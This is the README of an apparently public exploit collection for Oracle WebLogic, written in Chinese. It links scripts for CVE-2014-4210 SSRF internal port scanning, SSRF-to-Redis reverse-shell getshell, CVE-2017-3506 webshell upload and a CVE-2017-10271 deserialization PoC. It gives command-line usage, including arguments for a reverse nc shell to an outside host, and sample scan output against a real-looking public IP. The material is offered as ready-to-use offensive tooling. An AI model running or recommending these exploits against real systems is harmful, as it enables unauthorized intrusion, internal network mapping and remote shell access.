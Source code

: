 # About Oracle Weblogic
> WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

# Vulnerability list
[**cve-2014-4210_ssrf_scan.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_scan.py) Weblogic ssrf扫描内网端口利用脚本 [[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2014-4210_ssrf_redis_shell.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_redis_shell.py) Weblogic ssrf漏洞内网redis未授权getshell脚本[[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2017-3506_poc.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_poc.py) Weblogic wls-wsat远程命令执行漏洞检测脚本[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-3506_webshell.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_webshell.jar) Weblogic wls-wsat远程命令执行漏洞利用，上传Webshell[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-10271_poc.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-10271_poc.jar) Weblogic < 10.3.6 wls-wsat XMLDecoder反序列化漏洞[[使用]](https://freeerror.org/d/460)

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/tree/master/weblogic#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE: 脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP: 脚本利用示例，以及执行效果
- DES: 部分特殊脚本文件的特殊描述

## CVE-2014-4210_ssrf_scan.py Weblogic SSRF 漏洞扫描内网端口
> VER:
> ```
> Weblogic 10.0.2
> Weblogic 10.3.6
> ```
> USE:
> ```
zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py 
+----------------------------------------------------------------------+
+ USE: python <filename> <target_ip:port> <scan_address> <process>     +
+ EXP: python cve-2014-4210_ssrf_scan.py 1.1.1.1:7001 192.168.1.0 20   +
+ VER: 10.0.2,10.3.6                                                   +
+----------------------------------------------------------------------+
> ```
> EXP:
> ```
zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py  59.110.214.109:7001 192.168.112.0 30
192.168.112
[*]+------------------------+
[*]+  Scanning ip and port  +
[*]+------------------------+
[+] 192.168.112.1:22
[+] 192.168.112.2:80
[+] 192.168.112.3:7001
[+] 192.168.112.1:7001
[+] 192.168.112.2:6379
[*]+------------------------+
[*]+     Scan completed     +
[*]+------------------------+
> ```

## CVE-2014-4210_ssrf_scan.py Weblogic SSRF 漏洞扫描内网端口
VER:
```
Weblogic 10.0.2
Weblogic 10.3.6
```
USE:
```
zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_redis_shell.py 
+---------------------------------------------------------------------------------------------------+
+ USE: python <filename> <weblogic_ip> <weblogic_port> <inside_ip> <inside_port> <nc_ip> <nc_port>  +
+ EXP: python filename.py 1.1.1.1 7001 192.168.1.1 6379 2.2.2.2 5555                                +
+ VER: 10.0.2,10.3.6                                                                                +
+---------------------------------------------------------------------------------------------------+
```
DES:
```
<weblogic_ip> weblogic的IP地址
<weblogic_port> weblogic的端口，一般情况下为7001
<inside_ip> 内网redis主机的IP地址，该地址通过 6.1 的scan脚本得出
<inside_port> 内网redis的端口，默认6379
<nc_ip> 反弹nc shell的IP
<nc_port> 反弹nc shell的端口
```
![Image](https://freeerror.org/assets/files/2020-04-02/1585790930-936865-weblogic-redis-shell3.png)
